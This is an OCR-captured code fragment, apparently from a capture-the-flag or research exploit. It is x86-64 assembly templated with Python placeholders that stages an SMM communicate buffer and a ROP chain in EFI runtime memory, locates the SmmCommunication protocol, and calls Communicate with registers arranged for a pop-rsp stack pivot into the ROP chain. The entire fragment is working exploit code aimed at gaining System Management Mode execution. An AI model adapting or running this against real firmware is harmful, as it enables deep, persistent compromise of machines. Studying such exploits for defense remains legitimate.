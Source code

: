 ```python
lea r8, qword ptr [rip + buffer]
push rax
call rax
test rax, rax
jnz fail

pop rax
mov rcx, {enum_EfiRuntimeServicesData}
mov rdx, {len(rop) * 8}
lea r8, qword ptr [rip + rop_buffer]
call rax
test rax, rax
jnz fail

/* Copy header data to valid buffer */
lea rsi, qword ptr [rip + efi_smm_comminucate_hdr]
mov rdi, qword ptr [rip + buffer]
mov rcx, {len(payload) + 0x18}
cld
rep movsb

lea rsi, qword ptr [rip + rop_chain]
mov rdi, qword ptr [rip + rop_buffer]
mov rcx, {len(payload) + 0x18}
cld
rep movsb

/* Get LocateProtocol() addr */
mov rax, {addr_system_table + offset_BS}
mov rax, qword ptr [rax]
mov rax, qword ptr [rax + {offset_LocateFunc}]

/* LocateProtocol(&protocol_guid, NULL, &protocol_buff) */
lea rcx, qword ptr [rip + protocol_guid]
xor rdx, rdx
lea r8, qword ptr [rip + protocol_buff]
call rax
mov rbx, qword ptr [rip + protocol_buff]
test rax, rax
jnz fail

/* Communicate(&mSmmCommunication, &buffer, NULL) */
mov rcx, qword ptr [rip + protocol_buff]
mov rax, qword ptr [rcx]
mov rdx, qword ptr [rip + buffer]
xor r8, r8

mov r14, {rop_pop_rsp_ret}
mov r15, qword ptr [rip + rop_buffer]

mov r13, r14
shl r13, 40
shr r14, 24

mov rbx, r15
shl rbx, 40
add r14, rbx

shr r15, 24
call rax
test rax, rax
jnz fail
ret
```